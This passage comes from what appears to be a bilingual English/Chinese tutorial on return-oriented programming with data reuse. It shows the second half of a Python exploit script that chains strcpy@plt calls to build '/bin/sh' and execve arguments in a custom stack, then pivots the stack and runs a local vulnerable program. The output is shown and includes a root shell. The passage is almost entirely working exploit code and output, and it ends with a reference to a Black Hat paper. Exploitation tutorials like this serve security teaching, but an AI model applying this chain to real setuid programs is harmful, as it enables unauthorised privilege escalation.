buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct1)
#Below stack frames are for strcpy (to copy execve_arg2  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct1)
#Below stack frames are for strcpy (to copy execve_arg3  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
#Below stack frame is for strcpy (to copy execve path "/bin/sh" to custom stack @ loc 0x804ac60)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct2)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct3)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct4)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct5)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct6)
#Below stack frame is for strcpy (to copy execve argv[0] (0x804ac60) to custom stack @ loc 0x804ac68)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct4)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct3)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct2)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct1)
#Below stack frame is for strcpy (to copy execve argv[1] (0x0) to custom stack @ loc 0x804ac6c)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
#Stack Pivot
buf += conv(pr_addr)
buf += conv(cust_base_esp)
buf += conv(lr_addr)
print "Calling vulnerable program"
call(["./vuln", buf])
```
Executing above exploit code gives us root shell (as shown below):  
执行上面的漏洞利用代码就可以得到下面的root shell  

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����Ѓ΅d�ˁЃ΅e�U�Ѓ΅f�0�Ѓ΅g�C�Ѓ΅h�܃Ѓ΅i�U�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`�Ѓ΅p���Ѓ΅q�Ѓ΅r�0�Ѓ΅s�C�Ѓ΅t���Ѓ΅u�Ѓ΅v�0�Ѓ΅w�C�Ѓ΅x�`�Ѓ΅y�`�Ѓ΅z�`�Ѓ΅{�`�Ѓ΅`�T�Ѓ΅a�W�Ѓ΅b�V�Ѓ΅c�^�Ѓ΅d�T�Ѓ΅e�b�Ѓ΅f���Ѓ΅h���Ѓ΅i�Ѓ΅j�0�Ѓ΅k�C�Ѓ΅l�`�Ѓ΅m�`�Ѓ΅n�`�Ѓ΅o�`���`�i�
Len:1008
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 参考

[PAYLOAD ALREADY INSIDE: DATA REUSE FOR ROP EXPLOITS](http://media.blackhat.com/bh-us-10/whitepapers/Le/BlackHat-USA-2010-Le-Paper-Payload-already-inside-data-reuse-for-ROP-exploits-wp.pdf)

